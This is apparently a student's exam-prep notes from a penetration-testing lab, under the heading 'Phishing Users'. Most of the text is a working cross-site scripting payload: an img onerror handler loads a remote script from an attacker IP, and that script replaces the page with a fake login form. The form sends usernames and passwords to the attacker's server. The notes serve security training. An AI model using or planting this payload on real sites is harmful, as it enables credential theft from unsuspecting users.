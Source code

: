 -------

#### Phishing Users  - `should redo before exam`
- Reference original notes - very convoluded 

Script utilized to bypass `innerHTML` script running by utilizing `img` - this script is used to pull and execute the `phishingexercise.js` payload
- the payload entered into the vulnerable field
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/phishingexercise.js';script.async = true;document.body.appendChild(script);">
```
My `phishingexercise.js` payload
```html
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>';
```